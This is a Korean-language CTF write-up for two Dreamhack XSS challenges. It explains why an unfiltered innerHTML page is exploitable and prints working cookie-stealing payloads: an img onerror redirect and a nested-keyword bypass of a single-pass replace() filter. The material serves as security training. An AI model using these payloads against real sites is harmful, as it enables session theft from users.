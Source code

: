 ```python
	return render_template("memo.html", memo=memo_text)
   
app.run(host="0.0.0.0", port=8000)

```

취약점 분석: 페이지 코드 확인
- flag 함수는 post 로 보내는 param 값을 그대로 가져가서 check_xss 에 보냄.
- check_xss 함수에선 vuln 페이지에 get 방식으로 param을 보내고 그 값을 반환함.
	- param을 필터링하는게 없어 xss에 취약함
	- vuln.html 소스를 보면 innerHTML을 사용하므로 script 자체를 parameter로 보내도 실행시킬수 없음 -> wargame xss-1 과 차이
- innerHTML에서 스크립트를 실행시키기 위한 우회 방법 탐색
	- img 태그에서 onload, onerror 등으로 스크립트를 실행시킬수 있음. 해당 스크립트에 xss 코드 삽입 
	- 탈취한 쿠키를 받기위해 memo 엔드포인트 사용
	- `<img src="#" onerror="location.href='http://127.0.0.1:8000/memo?memo='+document.cookie"/>`

xss-filtering
https://dreamhack.io/wargame/challenges/433
xss-2와 거의 같으나 vuln 함수에서 xss_filter를 사용함
```python
def xss_filter(text):
	_filter = ["script", "on", "javascript:"]
	for f in _filter:
		if f in text.lower():
			text = text.replace(f, "")
	return text

@app.route("/vuln")
def vuln():
	param = request.args.get("param", "")
	param = xss_filter(param)
	return param
```

필터링(replace)한 이후 값을 다음과 같이 나오게만 하면 됨
- `<script>location.href='http://127.0.0.1:8000/memo?memo='+document.cookie</script>`
- flag 입력값: `<scripscriptt>locatioonn.href='http://127.0.0.1:8000/memo?memo='+document.cookie</scripscriptt>`
![xss-filtering-flag](./images/Pasted%20image%2020230820172422.png)
